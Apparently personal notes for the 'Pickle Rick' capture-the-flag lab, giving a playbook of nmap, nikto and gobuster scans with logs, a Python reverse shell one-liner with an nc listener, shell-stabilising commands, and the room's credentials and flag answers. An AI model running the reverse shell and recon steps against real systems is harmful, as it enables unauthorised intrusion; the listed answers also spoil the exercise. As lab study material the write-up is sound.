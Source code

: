 # Pickle Rick CTF notes

###### [Home](https://eduardo-granados.github.io/)

---

# Playbook

(Could use hydra, but would be too easy)

export IP=10.10.200.202 (IP will change), but will be useful to not have rewrite IP address

1. Look up source IP on a browser


2. Inspect page source code


3. nmap scan IP address 
    - `nmap -v2 -sC -sV -oN nmap_scap.log $IP`


4. Run a nikto scan and log it
   - `nikto -h http://$IP | tee nikto_scan.log `
   - Check out robots.txt, if it has one


5. Run gobuster
   - `gobuster dir -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,css,py | tee gobuster_scan.log`
   - there is a login page 


6. Command panel is shown, try out commands
    - `grep pattern filename -> grep . file.txt`
    OR
    - `while read line; do echo $line; done < clue.txt`


7. with access to a command line, lets set up a reverse shell
   - using python or netcat
   - `python3 -c "print('hello')"`


8. use pentestmonkey to create a reverse shell with
   - pentestmonkey.net
   - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
   - `nc -lnvp 9999`


9.  stabalize reverse shell
   - `/usr/bin/script -qc /bin/bash /dev/null`


10. try to become root and snoop
   - `sudo bash`

# nmap_results

```
# Nmap 7.60 scan initiated Tue Jul  4 01:02:41 2023 as: nmap -v2 -sC -sV -oN nmap_scan.log 10.10.157.152
Nmap scan report for ip-10-10-157-152.eu-west-1.compute.internal (10.10.157.152)
Host is up, received arp-response (0.00061s latency).
Scanned at 2023-07-04 01:02:42 BST for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:37:46:44:8f:24:02:f8:36:61:b5:9e:06:20:09:03 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4YqWDGijuoTjsGHWhqbaZXS7AulELXqfKO1J99N5wxEG8hA9KkPahkGlfp1XD0nVRnak0XjXJE87wtn6UybFWBBcNo078ObYer1ONnsYuUCY6RTmHyD3BCoz55+faQqc1maYtNRWEYUlo2PzNtV6+9i67jJE8WLeYSXGZTpKCDBh8ljYtc+45rIQLhbPQEQJyMKvrLX9pISgibMl4AD/x8qgqieYYNumqwf3w8/sQ+RMmDzhLCthnwoORmw/BnkF7uYYDz83cCI4AxJv/C2byazZy55vCAb9XByiAmZFlY/bIFslfXlEV+RSeGHHHHM52MkgB2pSopVbyIl9zVyyJ
|   256 2d:9c:35:99:a3:96:90:a6:a5:f4:77:8f:8b:05:50:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGQJq0EDmzoqLa/ndvEYFLGSbZg4kGCm9LRR++pTZnNd+pHoL91V4sxZqlB7zpegGCZ8Sqia+gW7vJWfk36hysc=
|   256 8e:a0:23:d6:4b:16:6f:84:c8:25:ce:6d:e7:77:3f:3c (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGuhYvMm4pq+KQjSFG4kAI7QqAdqX2zb4k2lwLh7EzF9
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:7B:6D:D6:28:CF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  4 01:02:50 2023 -- 1 IP address (1 host up) scanned in 8.34 seconds

```

# nikto_results

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.157.152
+ Target Hostname:    ip-10-10-157-152.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-07-04 00:05:10 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-07-04 00:05:18 (GMT1) (8 seconds)
---------------------------------------------------------------------------

```

# gobuster_results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.157.152
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,cgi,html,js,css,py,php
[+] Timeout:        10s
===============================================================
2023/07/04 00:19:14 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/denied.php (Status: 302)
/server-status (Status: 403)
/clue.txt (Status: 200)
===============================================================
2023/07/04 00:53:16 Finished
===============================================================

```

# copy_pasta

```
Username: R1ckRul3s

Wubbalubbadubdub


Sup3rS3cretPickl3Ingred.txt
    -> mr. meeseek hair


assets


clue.txt
denied.php
index.html
login.php
portal.php
robots.txt


Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
-> echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | ba0== base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d 
-> rabbit hole


2nd ingredeient: 1 jerry tear


3rd ingredients: fleeb juice

```

# stabalizing_shell

```
/usr/bin/script -qc /bin/bash /dev/null

OR

nc -lnvp 9999
CRTL + z
stty raw -echo;fg
ENTER
export TERM=xterm

```

# Task_1

```
1. What is the first ingredient that Rick needs?
- 1st ingredeient: mr. meeseek hair

2. What is the second ingredient in Rick’s potion?
- 2nd ingredeient: 1 jerry tear

3. What is the last and final ingredient?
- 3rd ingredients: fleeb juice

```